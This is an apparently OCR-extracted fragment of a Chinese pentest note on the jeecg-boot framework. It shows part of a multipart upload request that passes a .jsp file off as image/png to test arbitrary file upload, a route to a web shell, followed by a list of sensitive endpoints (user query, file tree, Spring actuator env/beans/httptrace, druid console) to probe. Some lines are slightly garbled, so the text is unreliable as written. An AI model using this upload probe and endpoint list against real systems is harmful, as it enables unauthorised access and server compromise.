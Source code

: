 Connection: close  
  
------WebKitFormBoundarygcflwtei  
  
Content-Disposition: form-data; "name="name"  
  
zW9YCa.png  
  
------WebKitFormBoundarygcflwtei  
  
ontent-Disposition: form-data; name="documentTitle"  
  
blank  
  
------WebKitFormBoundarygcflwtei  
  
Content-Disposition: form-data; name="file"; filename="zW9YCa.jsp"  
  
Content-Type: image/png  
  
11111  
  
------WebKitFormBoundarygcflwtei--  
## 常见jeecg-boot常见接口  
  
/v2/api-docs  
  
/jeecg-boot/online/cgform/head/fileTree?_t=1632524014&parentPath=/  
  
/jeecg-boot/sys/user/querySysUser?username=admin  
  
/jeecg/  
  
/api/sys/  
  
/sys/user  
  
/v2/api-docs  
  
/swagger-ui.html  
  
/env  
  
/actuator  
  
/mappings  
  
/metrics  
  
/beans  
  
/configprops  
  
/actuator/metrics  
  
/actuator/mappings  
  
/actuator/beans  
  
/actuator/configprops  
  
/actuator/httptrace  
  
/druid/index.html  
  
